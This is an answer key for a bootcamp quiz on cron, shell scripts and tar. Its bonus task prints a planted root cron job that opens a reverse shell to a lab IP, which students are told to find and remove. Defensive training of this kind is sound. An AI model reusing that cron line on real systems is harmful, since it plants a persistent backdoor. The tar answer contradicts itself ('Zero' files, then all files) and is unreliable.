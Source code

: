 ## Solution Guide: Reviewing Cron

1. Answer the following `cron` assessment questions:

    - When will the following `cron` schedules run?

      `*/10 * * * *` 

       - **Solution:** At every 10th minute.

    - What event is the following `cron` a minute away from?

      `59 23 31 12 *`

       - **Solution:** New Years!

    - What do the following hypothetical `cron` likely do?

        - `0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`

            - **Solution:** Run a script that adds up all the sales for the work day.

        - `@weekly /home/sysadmin/Scripts/auto-update.sh`

            - **Solution:** A weekly automated system update.

2. Answer the following `script` assessment questions:

    - What is a shebang?

        - **Solution:** It is the commented file declaration at the top of a shell script.

    - What two characters should come before the filename of a script?

        - **Solution:** `./`

    - Jane's script has "user" and "group" ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?

        - **Solution:** Run `chmod +x` on her file!

3. Answer the following `tar` assessment questions:

    - How does the `-x` option modify the `tar` command?

        - **Solution:** This option will let `tar` extract an archive!

    - If a directory has `ten` files and the following command is used in it, how many files are being archived?

        -   `tar cvvWf backups/archive.tar .`

            - **Solution:** Zero, because tar doesn’t compress! But all files should be archived as they're all in the current directory!

    - What option prints the full file specification of files as you interact with them?

        - **Solution:** `-vv`

    - Why is the `-f` option used in almost every `tar` operation?

        - **Solution:** The `-f` option lets you designate a `tar` file to either "create" or "extract" or "list" from.

4. **Bonus:** You are tasked to look through the `cron` jobs within your current workstation to see if any suspicious or modified cronjobs exist. Remove the one that matches the following descriptions: `Cron` is running system-level jobs with `root` privileges. The `cron` task you're looking for involves another machine.

   - Run `sudo crontab -e` to open the `root` `crontab`.

   - The cron you wanted to remove was:

   - `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.  
